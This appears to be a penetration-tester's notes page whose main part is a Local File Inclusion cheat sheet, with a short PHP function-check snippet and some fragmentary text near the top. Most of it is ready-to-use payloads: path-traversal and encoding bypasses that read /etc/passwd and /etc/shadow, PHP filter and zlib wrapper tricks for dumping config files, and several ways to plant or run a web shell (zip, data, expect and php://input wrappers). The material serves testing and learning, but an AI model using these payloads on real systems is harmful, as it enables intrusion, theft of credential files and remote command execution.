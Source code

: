 ```jsx
<?php

print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));

?>
```

to check wi

I used [Acunetix PHP script](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/) to check what functions are enabled:

```jsx
?file=../../../etc/passwd%00 ⇒ null byte to bypass extention
```

```jsx

```
- https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet
- https://aditya-chauhan17.medium.com/local-file-inclusion-lfi-to-rce-7594e15870e1
- https://medium.com/@lashin0x/local-file-inclusion-to-remote-code-execution-rce-bea0ec06342a

---

## Local File Inclusion (LFI)

## Introduction
Local File Inclusion is an attack technique in which attackers trick a web application into either running or exposing files on a web server

## Where to find
- Any endpoint that includes a file from a web server. For example, `/index.php?page=index.html`

## How to exploit
1. Basic payload
```
http://example.com/index.php?page=../../../etc/passwd
http://example.com/index.php?page=../../../../../../../../../../../../etc/shadow
```

2. URL encoding
```
http://example.com/index.php?page=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
```

3. Double encoding
```
http://example.com/index.php?page=%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

4. UTF-8 encoding
```
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

5. Using Null Byte (%00)
```
http://example.com/index.php?page=../../../etc/passwd%00
```

6. From an existent folder
```
http://example.com/index.php?page=scripts/../../../../../etc/passwd
```

7. Path truncation
```
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.
http://example.com/index.php?page=a/./.[ADD MORE]/etc/passwd
```

8. Using PHP Wrappers: filter
```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=config.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=config.php
```

9. Using PHP Wrappers: zlib
```
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/shadow
```

10. Using PHP Wrappers: zip
```
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

11. Using PHP Wrappers: data
```
http://example.com/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+
```

12. Using PHP Wrappers: expect
```
http://example.com/index.php?page=expect://ls
```

13. Using PHP Wrappers: input
```
POST /index.php?page=php://input&cmd=ls HTTP/1.1
Host: example.com
...

<?php echo shell_exec($_GET['cmd']); ?>
```

14. Some unique bypass
```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
http://example.com/index.php?page=/.%2e/.%2e/.%2e/.%2e/etc/passwd
http://example.com/index.php?page=/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd
```

## References
* [Aptive](https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/)
